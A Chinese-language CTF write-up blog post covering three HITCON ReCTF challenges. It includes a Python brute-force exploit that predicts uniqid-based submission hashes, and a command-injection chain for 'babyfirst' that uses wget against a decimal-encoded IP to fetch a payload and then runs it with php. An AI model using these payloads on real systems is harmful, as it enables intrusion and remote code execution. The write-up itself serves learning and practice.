 ```yaml
---
title: HITCON-2023-ReCTF
date: 2023-08-27 20:50:27
tags:
- [CTF]
categories:
cover:
- cover.jpg
---
```

## 緣由
上周被公司派去參加了 hitcon 2023，看到年齡相近的大神們那超高水準的研究以及充滿夢想(?)的眼神後，被激勵到，又燃起 hacker 的熱情了。
剛好想到自己有個夢想就是挖洞拿獎金達到財富自由，由於在台上的講者們都曾是 ctf 王，打 ctf 似乎是個鍛鍊挖洞技能的好方法，於是打算如法炮製，試著打打看，看一年後有沒有機會真的變成挖洞高手，挖洞賺大錢。

在這次 hitcon 2023 我玩了 devcore wargame 和 rectf，{% post_link DEVCORE-Wargame-2023 %} 的部分，在活動的兩天內我只解的掉一題水題...(儘管我仍然花了 5 個小時)，rectf 因為開放時間比較久，費盡洪荒之力總算是解了兩題。在這邊放上 writeup 和簡單的心得，記錄一下。

## ReCTF
顧名思義，這個活動是將從前 hitcon ctf 出過的題目進行復刻。

### papapa
> 環境：[Hitcon-Ctf-2016-Papapa 建置環境](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/)
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-1.png 450 挖勒 %}
一進來頁面就長這樣，啥 input 都沒有，看了 cookie 感覺也沒能控制的點，我無言了...。
通靈了一下子，決定爬文搜 papapa ctf，發現是 hitcon 2016 時 orange 出的題目([連結](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/))，並翻了 orange github 的出題 src，原來解題的關鍵在憑證...。
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-2.png 450 %}

直接 burpsuite 改 host，拿到 flag `FLAG{Nw_u_F0un6_myh05t}`
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-3.png 450 %}

但其實這 flag 傳上去是錯的，窩操，傻住了一下，搞不好是藏在其他頁，重新走整個流程再試一次。
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/papapa-4.png 450 %}
這次真的拿到了 `hitcon{n0w_4y_h4v3_th3_f14g}`，原來 flag 不是在 `/index.html` 是在 `/`，還好不是藏很深(呼氣)。

### yeeclass
> 環境：附上 [docker-compose](https://github.com/t510599/My-CTF-Challenges/tree/master/HITCON%20CTF/2022/yeeclass)
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/yeeclass-1.png 450 %}
這個題目很佛心的給了你整個 source 包括 docker compose，所以只要 trace code 就好，
我原本是這樣想的...，但我前一小時真的看不出洞。
本以為是打 sql injection，但整份 code 都使用 POD execute，應該不是這問題。
後來才發現，submission.php 中有一個判斷失誤，`PERM_TA` 為 1，`_SESSION`不存在時，其在 boolean 的判斷會當成 0 的樣子，可以繞過拿到 FLAG 的清單 (`homework=1`)
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/yeeclass-2.png 450 %}

於是我把 cookie 清掉再讀一次網頁，繞過了，可惜這邊還是看不到 flag 內容
{% img https://files.sakana.tw/blog/HITCON-2023-ReCTF/yeeclass-3.png 450 %}

同時 submission.php 中看到了這一段，我突發奇想: "是不是有辦法 userclass 沒設定但 userid 設定成 `flagholder`"，這樣我就有拿的到 hash 去存取 flag 頁面了？！
``` php
<?php foreach ($result as $row) { ?>
<tr>
    <?php if ((isset($_SESSION["userid"]) && $_SESSION["userclass"] >= PERM_TA) || $row["userid"] == $_SESSION["userid"]) { ?>
    <td><a href="submission.php?hash=<?= $row['hash'] ?>"><?= $row["name"] ?></a></td>
```
於是我轉向 `index.php`，查了一堆資料想了各種可能 (e.g. HPP、race condition)，想破頭了覺得沒辦法做到。
``` php
// 邏輯大概是這樣，一氣呵成，看不出破綻
    $login_query = $pdo->prepare("SELECT * FROM user WHERE username=?");
    $result = $login_query->fetch(PDO::FETCH_ASSOC);
    $_SESSION["userid"] = $result["id"];
    $_SESSION["username"] = $result["username"];
    $_SESSION["userclass"] = $result["class"];
```
最後我破防了，去看出題者的說明，發現要利用 uniuid 直接拿時間戳產生的特性，推出當初用來算 hash 的 uid，學到了...，因為從上一步的繞過，我得到了 flag 的提交時間，可以寫 exploit 了。
exploit 基本上就是參考 php source uniuid 的寫法，其他比較花時間的部分，大概就是想辦法把日期時間轉換成 unixtimestamp 並且 parse 成對應格式，以及一些 POC 的基本驗證了 (我一開始還 parse 錯)
``` python
import http.client
import hashlib
# target url
url = 'rectf.hitcon2023.online'
# The flag submission time
sec = 1692158975
usec = 584096

for  i in range(300,1,-1):
    flag_submit_id = f"flagholder_{sec:x}{usec-i:x}"

    hash = hashlib.sha1(flag_submit_id.encode()).hexdigest()
    print(f"Testing {flag_submit_id}")

    conn = http.client.HTTPConnection(url, 30203)
    # conn = http.client.HTTPConnection(url, 8210)
    conn.request('GET',f'/submission.php?hash={hash}')
    r2 = conn.getresponse()
    data2 = r2.read()
    if(data2 != b'Submission not found.'):
        print(f'Successfully get flag with {hash}')
        print()
        print(data2)
        break
    conn.close()
```
Reference:
- https://stoneapp.tech/cavern/post.php?pid=948

### babyfirst
> 環境: [babyfirst](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2015/babyfirst) (至於當時環境的 php 版本我用 wappalyzer 看記得是 7.1.34，但我想用啥版本都影響不大，反正我用 8.1 好像還是一樣可以打)
<script src="https://gist.github.com/orangetw/cb3487e47d7aaaea4692.js"></script>
(應該沒人認真看這篇，我偷偷 host orange 的 gist 應該不會有人發現吧？)

找資料發現 `preg_match` 有個 `\n` 的 mismatch 洞之後，測了一兩個小時，
確定只能這樣串 `$args = ['AAA\n','mycmd','my parameter\n','mycmd']`，沒其他特殊字元可以繞過了。

串指令的路線
1. 寫入 base64 檔案 + decode base64 檔案 + 執行檔案
   - 如何寫入？狗到的方式都是 `echo xxx > file`，有 `>`
   - `base64 -decode` 有 `-`
2. 下載檔案 + 執行檔案
   - 如何下載？首先 ip `xxx.xxx.xxx.xxx` 就有 `.`

感覺都不行，我低下的想像力不知道怎麼辦了。偷偷看了一下 orange 的 writeup，確定 wget 可以。於是我又想了一個小時，靈機一動 ip 有 decimal 形式，`wget 2130706433(127.0.0.1)`成功下載檔案。
但 `wget` 抓下來的檔名是 `index.html`，就算 302 轉向到別的網頁還是一樣。又卡住了 QQ。
爬文幾乎每篇講 linux 下載檔案的，都是用 curl、wget。而 curl 也是會用到特殊符號。mv 也要輸入檔案名 `index.html`

在爬了一個多小時的文之後，果斷去看 writeup🥹。
```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload
```
看了我還是不懂，php 怎麼可能執行 tar 後的檔案，實際試了一次後，shit，還真的可以直接執行😱，為什麼會有這種 feature？！

除此之外還有
- wget 302 重導向到 ftp，可以解決 index.html 預設檔名的問題。
- busybox ftpget
- twistd telnet

這些解法確實是超出我的理解範圍了。

Reference:
- https://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97

### 其他題
其他題我還沒打，網站就關了，88。

### 心得

#### papapa
資訊收集的部分要再細心一點，都用 nmap 去掃這網站的 ip 了，卻沒注意到憑證這個部分。
另外意外的收穫就是從 orange 架這題目的 src，學到了 apache 的 virtual host 這個 feature，
原來有這種酷東西，感覺架網站時很有用，並且底層是檢查 http header 中的 `host:` 進行轉送的。
Reference:
- https://github.com/orangetw/My-CTF-Web-Challenges#papapa
- https://blog.51cto.com/milenovo/1698875
- https://httpd.apache.org/docs/2.4/vhosts/name-based.html

#### yeeclass
這一個我感覺就差一點，我因為原本的想法失敗就放棄了，但我認為我是有能力觀察到 uniuid 那邊的貓膩的，
這邊沒有堅持住，搥牆，要改進才行。
在說做不到之前，必須好好確認是不是還有其他可以利用的線索還沒觀察到的。

#### babyfirst
看完 writeup 後，我難得慶幸還好我有看，因為我真的想不出來這幾招...學到了。
可能也是因為我對 linux 的 coreutils 太不熟了，希望未來會改善。


